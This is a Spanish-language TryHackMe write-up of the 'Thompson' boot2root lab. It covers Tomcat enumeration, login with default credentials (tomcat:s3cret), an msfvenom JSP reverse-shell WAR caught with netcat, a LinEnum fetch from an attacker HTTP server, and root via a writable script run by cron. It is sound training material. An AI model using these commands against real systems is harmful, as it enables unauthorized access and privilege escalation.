


# Thompson — TryHackMe Writeup

**Platform:** TryHackMe  
**Difficulty:** Easy  
**Category:** Boot2Root  
**Date:** 2026-05-10

---

## Resumen

Máquina easy boot2root del CTF BSides Guatemala. Apache Tomcat 8.5.5 corriendo en el puerto 8080 con credenciales por defecto en el panel Manager. Se sube un payload `.war` de reverse shell malicioso para conseguir acceso. Escalada de privilegios mediante un cronjob ejecutado como root que llama a un script escribible en el directorio del usuario jack.

**Skills trabajadas:** enumeración de servicios, explotación de Apache Tomcat, generación de payloads con msfvenom, reverse shell, abuso de cronjob para privesc.

---

## Reconocimiento

```bash
nmap -sV -sC -Pn <IP>
```


|Puerto|Servicio|Versión|
|---|---|---|
|22/tcp|SSH|OpenSSH 7.2p2 Ubuntu|
|8009/tcp|AJP|Apache Jserv Protocol 1.3|
|8080/tcp|HTTP|Apache Tomcat 8.5.5|

> **Nota pentesting:** El puerto 8009 (AJP) puede ser interesante en algunos escenarios (ej. Ghostcat CVE-2020-1938), pero aquí la superficie de ataque está en el 8080. Cuando aparece Tomcat, lo primero es ir al panel Manager.

---

## Apache Tomcat — Acceso al Manager

Navegando a `http://<IP>:8080/manager/html` pide credenciales. Se prueban las credenciales por defecto de Tomcat:

- `tomcat` / `s3cret` ✅

> **Nota pentesting:** Apache Tomcat incluye credenciales de ejemplo documentadas en sus propias páginas de error. Cuando el login del Manager falla y redirige al 403, esa misma página suele contener ejemplos de credenciales en formato XML. Siempre leer la página de error completa antes de seguir. Las credenciales por defecto (`tomcat:s3cret`, `admin:admin`, `tomcat:tomcat`) deben ser el primer intento en cualquier instancia de Tomcat.


---

## Foothold — Subida de WAR malicioso

El Tomcat Manager permite desplegar archivos `.war` (Web Application Archive) — una función legítima que se abusa para subir una reverse shell.

Se genera el payload con msfvenom:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<TU_IP> LPORT=4444 -f war > shell.war
```

> **Nota pentesting:** El payload tiene que coincidir con la tecnología del objetivo. Tomcat corre Java, por lo tanto el payload tiene que ser Java (`java/jsp_shell_reverse_tcp`). Un ELF de Linux o una shell PHP no se ejecutarían aquí.

Se levanta un listener con netcat:

```bash
nc -lvnp 4444
```

Se sube `shell.war` desde la sección "WAR file to deploy" del Manager. La aplicación desplegada aparece en la lista como `/shell`.


Se hace click en `/shell` para disparar la ejecución — se recibe la conexión inversa en el listener.

Estabilización de la shell:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

---

## Escalada de Privilegios — Abuso de Cronjob

Se descarga y ejecuta LinEnum para enumeración:

```bash
# En la máquina atacante
python3 -m http.server 8000

# En la víctima (desde /tmp)
wget http://<TU_IP>:8000/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```

Se revisa el crontab manualmente:

```bash
cat /etc/crontab
```



Se encuentra un cronjob ejecutado como root cada minuto:

```
* * * * * root cd /home/jack && bash id.sh
```

El script `/home/jack/id.sh` es escribible por el usuario actual (tomcat). Se sobreescribe para copiar la flag de root:

```bash
echo 'cp /root/root.txt /home/jack/root.txt' > id.sh
```

Se espera un minuto a que cron lo ejecute y se lee la flag:

```bash
cat /home/jack/root.txt
```



---

## Flags

|Flag|Ubicación|
|---|---|
|user.txt|`/home/jack/user.txt`|
|root.txt|`/home/jack/root.txt` (copiada por el cronjob)|

---

## Lo aprendido

- **Apache Tomcat = payloads Java:** Tomcat corre Java, por lo tanto el payload de msfvenom tiene que ser `java/jsp_shell_reverse_tcp` en formato `.war`. Hacer coincidir el payload con la tecnología del objetivo es fundamental.
- **Credenciales por defecto:** Siempre probar credenciales por defecto antes de cualquier otra cosa en paneles de administración. La propia página de error 403 de Tomcat da pistas sobre el formato de las credenciales.
- **Abuso de cronjob para privesc:** Si un script ejecutado por root vía cron es escribible por un usuario con pocos privilegios, controlas lo que ejecuta root. Revisar `/etc/crontab` y `cron.d` temprano en toda enumeración de privesc.
- **Despliegue de WAR como vector de ataque:** La función de deploy del Tomcat Manager es una herramienta legítima de administración que se convierte en un vector directo de subida de shell cuando las credenciales son débiles o por defecto.